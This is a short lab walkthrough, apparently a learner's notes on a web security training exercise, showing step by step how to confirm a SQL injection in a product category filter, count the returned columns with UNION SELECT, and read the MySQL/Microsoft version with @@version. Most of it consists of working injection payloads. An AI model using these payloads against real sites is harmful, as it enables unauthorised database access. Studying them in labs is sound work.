





# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

> Lab Objective: display the database version string.

- Try to filter product based on category (e.g., `?category=Gifts`)
  

- Use this payload `?category=Gifts'` to check for SQLi.
  

  - Which validates the SQLi presence.

- Use `UNION SELECT null, ...` to know how many columns are returned in the main query.

- Use this payload `Gifts' UNION SELECT null, null -- -`, this indicates that the main query returns two columns.
  

  - Substitute `null` with `'a'` to see which column carry a string value.
  - Using this payload `Gifts' UNION SELECT 'a', 'a' -- -`, which indicates the two columns carry string values.
    

- I'll guess that the SQL query will be something like this:

  - `SELECT x, y FROM products WHERE category='Gifts';`

- Therefore, I'll inject this payload `' UNION SELECT @@version, null -- -`, to retrieve the database version.
  
  - Which succeeded in retrieving the database version.
